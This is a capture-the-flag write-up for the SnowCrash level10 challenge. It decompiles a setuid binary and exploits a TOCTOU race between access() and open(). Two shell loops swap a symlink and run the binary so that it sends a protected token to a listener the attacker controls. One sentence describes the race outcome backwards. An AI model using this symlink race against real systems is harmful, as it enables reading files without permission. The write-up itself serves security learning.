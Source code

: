 # writeup level10


After execute ls -la in level10 :

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```




After running binary ninja to reverse this binary :

![main](https://cdn.discordapp.com/attachments/1015186220227231825/1148990230909689946/image.png)
![main2](https://cdn.discordapp.com/attachments/1015186220227231825/1148990437391077406/image.png)


# Explain the code

The code appears to involve system calls like `connect` and `socket`, suggesting an attempt to read a file and transmit its contents to port 6969.

In this code, the initial step involves verifying file access permissions using the `access function`. The function checks whether the file specified in argv[1] (possibly represented by the variable var_1060) has READ access permissions, typically represented by the constant R_OK with a value of 4 in linux systems. If the specified file grants READ access, implying that the file is readable, the code proceeds to send its content to port 6969.

```
08048750      if (access(var_1060, 4) != 0)
0804874e      {
0804894d          var_1060 = "You don't have access to %s\n";
08048950          eax_27 = printf(var_1060, eax_5);
08048950      }
```

```
08048763          var_1060 = "Connecting to %s:6969 .. ";
08048766          printf(var_1060, eax_7);
08048770          var_1060 = stdout;
08048773          fflush(var_1060);
08048778          int32_t domain = 0;
08048780          int32_t type_1 = 1;
08048788          var_1060 = 2;
0804878f          int32_t fd = socket(var_1060, type_1, domain);
0804879f          int32_t addr = 0;
080487a5          int32_t var_14_1 = 0;
080487ac          int32_t var_10_1 = 0;
080487b3          int32_t var_c_1 = 0;
080487ba          addr = 2;
080487d0          char* cp;
080487d0          in_addr_t var_14_2 = inet_addr(cp);
080487e3          *(uint16_t*)((char*)addr)[2] = htons(0x1b39);
08048805          char const* const var_1048;
08048805          esp = &var_1048;
0804880d          int32_t var_101c;
0804880d          if (connect(fd, &addr, 0x10) == 0xffffffff)
0804880a          {
0804881c              var_1048 = "Unable to connect to host %s\n";
0804881f              printf(var_1048, var_101c);
08048824              var_1048 = 1;
0804882b              exit(var_1048);
0804882b              /* no return */
0804882b          }
08048830          size_t nbytes = 8;
08048838          char const* const buf = ".*( )*.\n";
08048844          char* var_1018;
08048844          var_1048 = var_1018;
0804884f          if (write(var_1048, buf, nbytes) == 0xffffffff)
0804884c          {
0804885e              var_1048 = "Unable to write banner to host %…";
08048861              printf(var_1048, var_101c);
08048866              var_1048 = 1;
0804886d              exit(var_1048);
0804886d              /* no return */
0804886d          }
```

We can test this by listen to port 6969  and send file 


![send](https://cdn.discordapp.com/attachments/1015186220227231825/1149020868383604806/image.png)

![r](https://cdn.discordapp.com/attachments/1015186220227231825/1149020867939016724/image.png)


# Exploit

In manual page of [access](https://linux.die.net/man/2/access) we have note with warrning:
```
Notes

Warning: Using `access()` to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided. (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)

`access()` always dereferences symbolic links. If you need to check the permissions on a symbolic link, use faccessat(2) with the flag AT_SYMLINK_NOFOLLOW.
```
So according to the manual page of `access()`, employing `access()` before `open()` can create a security vulnerability known as TOCTOU (Time-of-Check Time-of-Use) or race condition. This vulnerability arises due to the brief time interval between checking the file's accessibility and subsequently opening it. Malicious actors may exploit this interval by altering the file's permissions or content between the `access()` check and the actual file operation (`open()`), potentially leading to unauthorized access or manipulation of the file.

More information about this vulnerability can be found in the Common Weakness Enumeration (CWE) entry number 367 (CWE-367). [CWE-367](https://cwe.mitre.org/data/definitions/367.html) specifically addresses the Time-of-Check Time-of-Use (TOCTOU) race condition.

We now understand that the `access()` function checks permissions based on the real user ID (RUID), while the `open()` function considers the effective user ID (EUID). In the case of a setuid program, where the effective user ID may temporarily change, the `open()` function checks permissions based on the elevated EUID, such as flag10 in our scenario. This introduces a potential security vulnerability known as a race condition, where an attacker may exploit the brief time window between the `access()` and `open()` calls.

The heightened risk in this context is due to the fact that an attacker could manipulate the file between the `access()` check and the subsequent `open()` call, effectively skipping the permission check performed by `access()` and gaining unauthorized access to the file. It's noteworthy that the use of filenames as parameters, rather than `file descriptors`, contributes to the vulnerability of this race condition



The exploit is as follows:


```
touch /tmp/r
while [ 1 ]
do
  rm -f /tmp/tok
  ln -s /home/user/level10/token /tmp/tok
  rm -f /tmp/tok
  ln -s /tmp/r /tmp/tok
done
```
Here, a file /tmp/r is created for reading, and a loop continuously removes and recreates a symbolic link named /tmp/tok. This link alternates between pointing to /home/user/level10/token and /tmp/r.

The trick is to run this loop and another loop:

```
while [ 1 ]
do
  /home/user/level10/level10 192.168.1.4 /tmp/tok
done
```
The IP address is specific to our machine. The intention is to exploit a race condition by manipulating the symbolic link /tmp/tok between the access check and the open() operation in the level10 program.

During the brief interval when /tmp/tok is removed and recreated with a link to /tmp/r, the level10 program is expected to read the contents of /tmp/r instead of /home/user/level10/token. This enables unauthorized access to the file's content, highlighting a security vulnerability in the program's file access mechanism.

now we can get token and we the token we can get flag10

![token](https://cdn.discordapp.com/attachments/1164485225875783701/1195106008855482529/image.png?ex=65b2c834&is=65a05334&hm=018a7f00ffd064396b3176926b1ada7b9c761dd3d482ca06035482594ed63a72&)